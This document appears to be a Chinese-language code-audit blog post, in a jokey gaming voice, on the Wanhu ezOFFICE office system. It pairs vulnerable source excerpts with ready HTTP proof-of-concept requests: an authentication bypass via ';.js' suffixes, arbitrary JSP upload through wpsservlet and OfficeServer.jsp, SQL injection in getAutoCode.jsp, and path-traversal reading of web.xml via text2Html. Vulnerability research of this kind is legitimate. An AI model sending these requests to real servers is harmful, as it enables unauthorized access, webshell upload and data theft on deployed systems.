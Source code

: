 ## 重生之我在提瓦特大陆审计万户ezoffice

惹啊🥵，熟悉我的8u们都知道，我就职于一家全新开放冒险公司，公司位于一个被称作「提瓦特大陆」的幻想地，而鼠鼠我啊本来是不想更新了



### 鉴权绕过



鉴权代码在SetCharacterEncodingFilter中

打开之后可以看到后续代码都是去对request_shorturi中的路径来决定后续操作

`request_longURL` 获取完整的请求 URI 其实代码就是request.getRequestURI ，`ctx_path` 获取上下文路径

`request_shorturi` 通过截取上下文路径后的部分来获得相对于上下文根的请求路径。

而8u们都知道对request.getRequestURI的经典操作，就像到了星期四就知道要发点vme50、看到美女就已经幻想...

继续往下看一下远方美丽的代码吧

![image-20240813165334550](./Images/13.png)

来到这里

首先会从请求URI中提取文件后缀

当后缀为jspx的时候直接重定向到/defaultroot/login.jsp，但是这个就像鼠鼠们一样无关紧要



当后缀匹配到这些的时候会根据路径进行不同的重定向操作，当直接访问defaultroot/platform/custom/customizecenter/js/**get**AutoCode.jsp会来到最后重定向到/defaultroot/public/messages/overtime.jsp

```
if ((suffix.equals("") || suffix.equals(".jsp") || suffix.equals(".vm")) && this.needSecurity && request_shorturi.indexOf("/evo/weixin/") < 0 && request_shorturi.indexOf("/portal/") < 0 && request_shorturi.indexOf("/upgrade/") < 0 && request_shorturi.indexOf("/public/edit/") < 0 && request_shorturi.indexOf("/rongCloudServelt/") < 0 && request_shorturi.indexOf("/public/upload/") < 0 && request_shorturi.indexOf("/upload_2016/uploadify/") < 0 && request_shorturi.indexOf("/download/") < 0 && !security.getNosessionWhiteList().contains(request_shorturi) && !this.customSysLoginUriList.contains(request_shorturi)) {
```

![image-20240813170822494](./Images/14.png)

而当我们对jsp进行url编码或者.jsp;.js来访问。isExcludedAction默认为true且不会进入271行的if语句使isExcludedAction为false最后访问到文件

![image-20240813172600754](./Images/15.png)



### wpsservlet文件上传

网上的poc如下

```
POST /defaultroot/wpsservlet?option=saveNewFile&newdocId=apoxkq&dir=../platform/portal/layout/&fileType=.jsp HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Content-Length: 173Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3Connection: close
Content-Type: multipart/form-data; boundary=ufuadpxathqvxfqnuyuqaozvseiueerp
DNT: 1
Upgrade-Insecure-Requests: 1

--ufuadpxathqvxfqnuyuqaozvseiueerp
Content-Disposition: form-data; name="NewFile"; filename="apoxkq.jsp"

<% out.print("sasdfghjkj");%>
--ufuadpxathqvxfqnuyuqaozvseiueerp--
```



![image-20240814095238873](./Images/16.png)

在saveNewFile只检测了是否匹配到pdf 和wps并没有对其他后缀进行拦截

![image-20240814104749606](./Images/17.png)

最后上传后保存的文件路径组成

```
String filePath = SystemPath.getRootFilePath() + File.separator + "upload" + File.separator + dir + File.separator + docId + fileType;
```

所以poc是**newdocId=**apo&**dir=**../platform/portal/layout/&**fileType=**.jsp



来到saveNewFileToDB也没有什么拦截措施，甚至还有个sql注入

![image-20240814100800521](./Images/18.png)

而在下面还有个saveFile，是代码简化了的saveNewFile，直接参数改一下就可以上传了

![image-20240814103540392](./Images/19.png)



### officeserver.jsp文件上传漏洞

这个就是金格组件导致的

```
POST /defaultroot/public/iWebOfficeSign/OfficeServer.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0

DBSTEP V3.0     145             0               105             DBSTEP=REJTVEVQ
OPTION=U0FWRUZJTEU=
RECORDID=
isDoc=dHJ1ZQ==
moduleType=Z292ZG9jdW1lbnQ=
FILETYPE=Ly8uLi8uLi9wdWJsaWMvZWRpdC83Yzc1QWYuanNw
<% out.println("5EA635");new java.io.File(application.getRealPath(request.getServletPath())).delete(); %>
```



关于金格组件的漏洞分析及waf绕过：https://flowerwind.github.io/2022/09/05/%E5%85%B3%E4%BA%8E%E9%87%91%E6%A0%BC%E7%BB%84%E4%BB%B6%E4%B8%8A%E4%BC%A0%E7%BB%95waf%E7%9A%84tips/



### getAutoCode.jsp sql注入

```

GET /defaultroot/platform/custom/customizecenter/js/getAutoCode.jsp;.js?field=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: application/signed-exchange;v=b3;q=0.7,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


<%
      request.setCharacterEncoding("UTF-8");
   String pageId = request.getParameter("pageId");
        String head = request.getParameter("head");
      String field = request.getParameter("field");
      String tabName = request.getParameter("tabName");
      String table = tabName;
        com.whir.ezoffice.customdb.common.util.DbOpt dbopt = null;
        String newCode = "";
        response.setContentType("text/xml; charset=UTF-8");
        response.setHeader("Cache-Control","no-cache");
        try{
               dbopt = new com.whir.ezoffice.customdb.common.util.DbOpt();
            //String table = dbopt.executeQueryToStr("select AREA_TABLE from tarea where PAGE_ID="+pageId);
            String currentCode = dbopt.executeQueryToStr("select "+field+" from "+tabName+" where "+field+" like '"+head+"%' order by "+tabName+"_id desc");
            
```



### graph_include.jsp sql注入

```
	String startDate = request.getParameter("startDate")!=null?request.getParameter("startDate"):"";
		String id = EncryptUtil.htmlcode(request,"id");//request.getParameter("id")!=null?request.getParameter("id"):"";
			if(!"".equals(id)){
		GraphReportPO po = bd.load(Long.valueOf(id));
						GraphReportTypePO o = bd.loadType(po.getTypeId());
				reportType = o.getType()!=null?o.getType().toString():"";		
								} else if("2".equals(reportType)){										
					if("oracle".equalsIgnoreCase(dbType)){
						String sql2 = po.getDataSQL();

						String whereSql = sql2.substring(sql2.lastIndexOf("=")+1,sql2.length());
						if(startDate!=null && !"".equals(startDate)){
							sql = " select * from (select sum(s.num) ,empname from (select count(log_id) as num,e.empname from security_log t,org_employee e "
								+" where oprstarttime > to_date('"+startDate+" 00:00:00','yyyy-mm-dd,hh24:mi:ss') "
								+";
						}else{
```



### evoInterfaceServlet 未授权访问

```
public class EvoInterfaceServlet extends HttpServlet {

    public void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        String param = request.getParameter("paramType");
        
                    if ("user".equals(param)) {
                listType = "userList";
                userList = bd.getAllUserInfoList(domainId);
                
                    public List getAllUserInfoList(Long domainId) throws Exception {
                                String sql = "select emp.EMP_ID,emp.empname,emp.userAccounts,xxxxxxxxxxand emp.EMP_ID!=1";
            ResultSet rs = stmt.executeQuery(sql);
```



### text2Html接口任意文件读取

网上poc如下

```
POST /defaultroot/convertFile/text2Html.controller HTTP/1.1
Host:  
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.67 Safari/537.36
Connection: close
Content-Length: 63
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
SL-CE-SUID: 1081

saveFileName=123456/../../../../WEB-INF/web.xml&moduleName=html
```





```
      <servlet-mapping>
    <servlet-name>spring</servlet-name>
    <url-pattern>*.controller</url-pattern>
  </servlet-mapping>
  所以访问要加.controller
    @RequestMapping({"/text2Html"})
    public String text2Html(HttpServletRequest request, HttpServletResponse response) {

        String saveFileName = request.getParameter("saveFileName");
        String moduleName = request.getParameter("moduleName");
        String rootPath = request.getSession().getServletContext().getRealPath("/");
        String documentFilePath = rootPath + File.separator + "upload" + File.separator + moduleName + File.separator + saveFileName.substring(0, 6) + File.separator + saveFileName;
        File realFile = new File(documentFilePath);
```

